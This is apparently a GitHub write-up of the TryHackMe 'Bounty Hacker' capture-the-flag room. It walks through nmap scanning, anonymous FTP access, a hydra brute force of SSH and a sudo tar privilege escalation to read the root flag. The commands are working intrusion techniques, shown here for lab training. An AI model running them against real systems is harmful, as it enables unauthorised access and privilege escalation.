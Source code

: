# Bounty Hacker 
 ~ https://tryhackme.com/room/cowboyhacker
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![bonty intro](https://user-images.githubusercontent.com/112984045/200177378-c657e25e-8fa7-43fa-b5de-7c34aa08ee05.png)
 ~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![bonty nmap](https://user-images.githubusercontent.com/112984045/200179161-11ae6f38-9148-47f6-acbc-267679af2992.png)
  <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
 ![bonty portscanner](https://user-images.githubusercontent.com/112984045/200180020-c653c656-2254-4224-b674-866404b281eb.png)<br>
  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 ## FOOTHOLD
 
 * `the ftp port 21 has Anonymous FTP login allowed (FTP code 230)`
 ![bonty ftpmarked](https://user-images.githubusercontent.com/112984045/200180232-5e8d8e21-8bdc-4e18-b1c6-f7f3a30ce9ba.png)
 <br> ~ Therefore we can login to ftp without password by using USERNAME: Anonymous.
 
 
 ![bonty ftp login](https://user-images.githubusercontent.com/112984045/200180807-8c088b60-5245-4a8e-8fd2-5261e67f2263.png)
 <br> ~ After login have observed the files using the command:
 ```bash
 ls -la
 ```
 <br>
 
 * As we cannot read the files on shell, we will download those files to our local system using commands:
 ``` bash
 get locks.txt
 ```
 ```bash
 get task.txt
 ```
 <br>
 
 * Now we can read the content in the files using command:
 ``` bash
 cat locks.txt
 ```
 ![bonty locks](https://user-images.githubusercontent.com/112984045/200181166-706202a0-397a-4215-aaea-b415642294d5.png)
  <br> ~ This file looks like password list, This could be helpfull for any further bruteforce.
  <br>
  
  ``` bash
  cat tash.txt
  ```
  ![bonty task](https://user-images.githubusercontent.com/112984045/200181361-2a32ec55-cc5d-4cfc-9312-54712a80668b.png)
  <br> ~ There is a message which is written by 'lin'
  ![bonty 3](https://user-images.githubusercontent.com/112984045/200181716-bc85faea-1009-495f-a21d-7e7a36c1fdc9.png)
  <br>
  
  `* As we have login access to ftp port hence there is only port 22 which could be bruteforce using locks.txt i.e ssh`
   ![bonty 4](https://user-images.githubusercontent.com/112984045/200181900-16b07e3f-d763-443a-9a8b-b097ea46b0ed.png)
   <br>
   
   * We have username: 'lin' and password list: locks.txt. We can use hydra tool for bruteforcing ssh server.
   <br>command:
   ```bash
   hydra -l lin -P locks.txt ssh://<IP>
   ```
   ![bonty hydra](https://user-images.githubusercontent.com/112984045/200182851-8e096ab3-b256-47d3-aa9b-8825637ee755.png)
   <br> ~ Now we can login to ssh using these credentials.
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183044-0a8e07d5-d71c-4232-be91-ef66868be99c.png)

 
   
   <br>
   
   * After logging in to ssh we can look for file contents and read them using the same commands :
   ```bash 
   ls -la
   ```
   ```bash
   cat user.txt
   ```
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183130-ea0fc571-676e-47bc-9790-122cbc2be4fb.png)
<br>
   
   ## PRIVILEGE ESCALATION :
  * To check the root level access on command or authority to read, write, execute on files, we use command :
  ```bash
  sudo -l
  ```
  ![bonty sudo-l](https://user-images.githubusercontent.com/112984045/200184909-39ac8c6a-66dd-4ba5-8aa2-a82be628221b.png)
   <br> ~ we can observe that user lin can run the commad tar as sudo.
   
  <br>
  
  ` * We can look in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for a command to escalate.`
  ![bonty gtfbins tar](https://user-images.githubusercontent.com/112984045/200183946-d92a93da-2afa-4d22-9c5f-9a8259c89517.png)
<br>

* Finally we can run the command :
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
<br> ~ congo you are in.

* Now change directory to /root and read the flag using the commands :
```bash
cd /root
```
```bash
cat root.txt
```

`DO SUBMIT YOUR FLAG TO COMPLETE THE TASK`
   
### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
   
